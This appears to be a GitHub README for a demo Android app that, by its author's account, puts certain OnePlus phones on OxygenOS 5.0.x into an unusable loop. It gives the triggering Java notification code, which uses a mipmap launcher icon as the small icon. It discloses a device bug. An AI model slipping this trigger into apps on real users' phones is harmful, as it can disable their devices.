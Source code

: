 # OnePlusKiller
This is a simple demo app that show how you can easily destroy OnePlus system (tested on 3T and 5T) running android 8.0.0 OxygenOS 5.0.1 or 5.0.4
This demo app will keep OnePlus in loop and the device won't be functional.

This lines of code make it happen:
``` java
    builder.setSmallIcon(R.mipmap.ic_launcher)
```


``` java
    private void sendNotification(String title, String content) {
        NotificationManager mNotificationManager = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);
        // Android O requires a Notification Channel.
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            CharSequence name = getString(R.string.app_name);
            // Create the channel for the notification
            NotificationChannel mChannel = new NotificationChannel(CHANNEL_ID, name, NotificationManager.IMPORTANCE_DEFAULT);
            // Set the Notification Channel for the Notification Manager.
            if (mNotificationManager != null) {
                mNotificationManager.createNotificationChannel(mChannel);
            }
        }
        NotificationCompat.Builder builder = new NotificationCompat.Builder(this, CHANNEL_ID);
        // Define the notification settings.
        builder.setSmallIcon(R.mipmap.ic_launcher)
                .setContentTitle(title)
                .setContentText(content);
        // Dismiss notification once the user touches it.
        builder.setAutoCancel(true);
        // Issue the notification
        if (mNotificationManager != null) {
            mNotificationManager.notify(0, builder.build());
        }
    }
```

![Alt text](/Screenshot_20180320-092504.jpg "Screenshot")


